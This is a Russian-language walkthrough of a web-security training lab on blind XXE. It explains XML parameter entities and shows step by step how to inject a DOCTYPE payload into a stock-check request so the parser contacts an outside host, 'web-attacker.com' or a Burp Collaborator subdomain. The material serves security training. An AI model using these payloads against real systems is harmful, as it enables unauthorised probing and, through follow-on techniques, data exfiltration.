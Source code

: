 Иногда атаки XXE с использованием обычных сущностей блокируются из-за некоторой проверки ввода приложением или некоторого усиления используемого парсера XML. В этой ситуации вы можете использовать сущности параметров XML вместо них. Сущности параметров XML — это особый вид сущности XML, на которую можно ссылаться только в другом месте в пределах DTD. Для настоящих целей вам нужно знать только две вещи. Во-первых, объявление сущности параметра XML включает символ процента перед именем сущности:

<!ENTITY % myparameterentity "my parameter entity value" >
Во-вторых, для ссылки на параметрические сущности используется символ процента вместо обычного амперсанда:

%myparameterentity;
Это означает, что вы можете проверить наличие слепого XXE, используя внеполосное обнаружение с помощью сущностей параметров XML следующим образом:

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
Эта полезная нагрузка XXE объявляет сущность параметра XML, которая называется xxe, а затем использует сущность в DTD. Это вызовет поиск DNS и HTTP-запрос к домену злоумышленника, подтверждая, что атака была успешной.

---

 В этой лаборатории есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает неожиданные значения и блокирует запросы, содержащие обычные внешние сущности.

Для решения лабораторной работы используйте параметрическую сущность, чтобы анализатор XML выполнил DNS-поиск и HTTP-запрос к Burp Collaborator.

---

1. Нас встречает список продуктов, переходим на любой из них:

![image](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

2. Внизу страницы есть кнопка "Проверить наличие на складе" включает Burp прокси и нажимаем:

![image](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

3. Заходим в Proxy -> HTTP History выбираем POST запрос к /product/stock и отправляем в Repeater: 

![image](https://github.com/user-attachments/assets/714f1495-42e5-48d2-b690-8bf41c3f3a57)

---

4. Вставьте следующее определение внешней сущности между декларацией XML и stockCheck элементом. Щелкните правой кнопкой мыши и выберите «Вставить полезную нагрузку Collaborator», чтобы вставить поддомен Burp Collaborator, где указано: <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>


![image](https://github.com/user-attachments/assets/0dfd4ce3-255e-42ef-b1ed-ac6b2edce480)

---

5. Перейдите на вкладку Collaborator и нажмите «Poll now». Если вы не видите перечисленных взаимодействий, подождите несколько секунд и попробуйте снова. Вы должны увидеть некоторые взаимодействия DNS и HTTP, которые были инициированы приложением в результате вашей полезной нагрузки.
